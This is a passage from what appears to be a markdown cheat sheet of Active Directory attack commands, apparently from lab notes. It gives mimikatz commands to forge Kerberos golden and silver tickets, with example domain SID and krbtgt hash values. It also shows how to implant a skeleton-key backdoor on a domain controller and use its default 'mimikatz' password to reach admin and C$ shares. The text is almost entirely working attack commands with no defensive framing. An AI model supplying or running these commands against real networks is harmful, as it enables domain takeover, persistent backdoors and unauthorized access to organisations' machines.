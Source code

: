 ### Creating Golden / Silver Ticket
```bash
mimikatz # kerberos::golden /user:Administrator /domain:<DOMAIN> /sid:<KRBTGT_SID> /krbtgt:<KRBTGT_NTLM_HASH> id:500
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
```

To create a silver ticket, use the above command but change the ID to `1103` and change the `krbtgt` and `sid` to the values of the respective service account.

### Using The Silver / Golden Ticket To Access Other Machines
First open an elevated command prompt with the given ticket

```bash
mimikatz # misc::cmd
```

## Kerberos Backdoors / Skeleton Keys
The Kerberos backdoor acts as a rootkit, implanting itself into the memory of the domain forest, and allowing itself access to any of the machines with a single master password. The backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. **The backdoor only works using Kerberos RC4 Encryption.**

```bash
mimikatz # privilege::debug
mimikatz # misc:skeleton
```

That’s it!

The default credentials will be `mimikatz.`

example: `net use c:\\\\DOMAIN-CONTROLLER\\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

example: `dir \\\\Desktop-1\\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1